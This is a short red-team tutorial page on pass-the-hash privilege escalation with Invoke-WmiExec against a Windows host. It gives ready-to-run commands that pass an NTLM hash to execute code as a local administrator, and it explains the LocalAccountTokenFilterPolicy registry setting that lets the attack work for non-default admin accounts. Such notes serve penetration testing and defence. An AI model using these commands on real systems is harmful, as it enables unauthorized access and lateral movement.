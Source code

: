 # Pass The Hash: Privilege Escalation with Invoke-WMIExec

## Execution

If you have an NTLMv2 hash of a local administrator on a box ws01, it's possible to pass that hash and execute code with privileges of that local administrator account:

```csharp
Invoke-WmiExec -target ws01 -hash 32ed87bd5fdc5e9cba88547376818d4 -username administrator -command hostname
```

Below shows how the user `low` is not a local admin, passes the hash of the local `administrator` account on ws01 and executes a command successfully:

![](../../.gitbook/assets/image%20%28215%29.png)

## RID != 500 - No Pass The Hash for You

Say you have a hash of the user spotless who you know is a local admin on ws01:

![](../../.gitbook/assets/image%20%2811%29.png)

...but when you attempt passing the hash, you get access denied - why is that?

![](../../.gitbook/assets/image%20%28178%29.png)

It may be because hashes for accounts that are not RID=500 \(not default administrator accounts\) are stripped of some privileges during the token creation.

![](../../.gitbook/assets/image%20%28236%29.png)

![](../../.gitbook/assets/image%20%2883%29.png)

If the target system you are passing the hash to, has the following registry key/value/data set to 0x1, pass the hash will work even for accounts that are not RID 500:

```text
HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\LocalAccountTokenFilterPolicy
```

![](../../.gitbook/assets/image%20%2846%29.png)

```csharp
Invoke-WmiExec -target ws01 -hash 32ed87bd5fdc5e9cba88547376818d4 -username spotless -command hostname
```

![](../../.gitbook/assets/image%20%2841%29.png)

## References

{% embed url="https://www.harmj0y.net/blog/redteaming/pass-the-hash-is-dead-long-live-localaccounttokenfilterpolicy/" %}

